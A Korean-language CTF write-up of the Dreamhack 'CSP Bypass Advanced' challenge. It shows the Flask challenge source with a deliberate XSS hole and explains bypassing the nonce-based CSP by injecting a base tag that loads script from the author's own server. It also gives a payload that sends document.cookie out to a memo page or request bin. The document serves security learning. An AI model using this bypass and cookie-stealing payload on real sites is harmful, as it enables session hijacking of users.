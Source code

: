 ```yaml
---
title : Dreamhack - CSP Bypass Advanced
categories: [Dreamhack, Webhacking]
date: 2022-04-20 22:33 +0900
tags: [dreamhack csp bypass, csp, csp bypass, script src, base url]
---
```


## CSP Bypass Advanced
<hr style="border-top: 1px solid;"><br>

```python
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)
nonce = os.urandom(16).hex()

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"


def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome("/chromedriver", options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True


def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)

@app.after_request
def add_header(response):
    global nonce
    response.headers['Content-Security-Policy'] = f"default-src 'self'; img-src https://dreamhack.io; style-src 'self' 'unsafe-inline'; script-src 'self' 'nonce-{nonce}'; object-src 'none'"
    nonce = os.urandom(16).hex()
    return response

@app.route("/")
def index():
    return render_template("index.html", nonce=nonce)


@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return render_template("vuln.html", param=param, nonce=nonce)


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html", nonce=nonce)
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return f'<script nonce={nonce}>alert("wrong??");history.go(-1);</script>'

        return f'<script nonce={nonce}>alert("good");history.go(-1);</script>'


memo_text = ""


@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text, nonce=nonce)


app.run(host="0.0.0.0", port=8000)
```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

vuln.html 코드를 보면 ```param | safe```가 있는데 render_template로 리턴을 하면 html entity encoding이 되지만 safe를 사용하면 escape가 된다고 한다.

따라서 태그를 사용하면 그대로 출력되므로 xss 공격이 가능하다.

<br>

CSP Bypass 문제와 똑같이 입력해본 뒤 console 창을 확인하면 ```Uncaught SyntaxError: Unexpected token '<' (at vuln?param=alert():1:1)``` 에러가 뜬다.

source 탭을 확인해보면 ```<!doctype html>``` 에서 막힌 걸 알 수 있다. 

그 이유는 vuln 페이지에서 자바스크립트 코드만 나오지 않고 항상 처음에 ```<!DOCTYPE html>```가 있는 완전한 html문서가 나와 첫 줄부터 ```<```를 만나서 자바스크립트 해석에 에러가 생기기 때문이라고 한다.
: CSP Bypass 문제에서는 스크립트 코드를 입력하면 스크립트 코드만 있어서 실행된 것.

<br>

그럼 ```<script src=''>```를 이용해서 자바스크립트 코드를 불러오는 방법은 할 수 없는데 어떻게 해야 하는가?

문제에서 설정된 정책을 보면 ```base-uri``` 정책이 none으로 설정되어 있지 않다. 강의에서 ```base-uri``` 정책이 설정되지 않으면 발생하는 취약점이 설명되어 있다.

<br>

코드를 보면 ```<script src="/static/js/jquery.min.js" nonce=c7a587423b15cc87ec066f7b0e2e5984></script>```가 있다. 

```<base>``` 태그를 이용해 경로를 내 서버로 변경하면 ```<script src="/static/js/jquery.min.js">```는 내 서버에 있는 ```/static/js/jquery.min.js```에서 코드를 가져올 것이다.

이렇게 하면 ```script-src 'self'``` 정책을 위반하지 않는다. 

<br><br>

replit을 통해 flask로 서버를 연 뒤,  ```/static/js/jquery.min.js```를 추가한 뒤 ```alert(1)```을 저장한다. 

그 다음 ```/vuln``` 페이지에서 ```<base href="URL">```을 입력해주면 alert가 실행된다.

공격 코드로 ```location.href="http://localhost:8000/memo?memo='+document.cookie"``` 또는 dreamhack에서 제공하는 request bin 주소로 쿠키 값을 보내면 된다.

<br><br>
<hr style="border: 2px solid;">
<br><br>

## 알아낸 점
<hr style="border-top: 1px solid;"><br>

Link
: <a href="https://ind2x.github.io/posts/dreamhack_relative_path_overwrite/#solution-1" target="_blank">ind2x.github.io/posts/dreamhack_relative_path_overwrite/#solution-1</a>

<br>

base 태그를 사용할 때는 head에서 사용해야 된다고 되어있는데 그 이유는 base 태그가 사용된 위치에서부터 적용되기 때문이다.

head에서 사용되면 head는 맨 위에 있기 때문에 전체적으로 적용이 가능하기 때문이다.

중간에서 사용되면 중간부터 적용되므로 위의 문제에서도 중간에서 적용되어서 그 아래에 있는 script 코드에서는 변경된 base url이 적용되어서 문제가 풀린 것.

<br><br>
<hr style="border: 2px solid;">
<br><br>

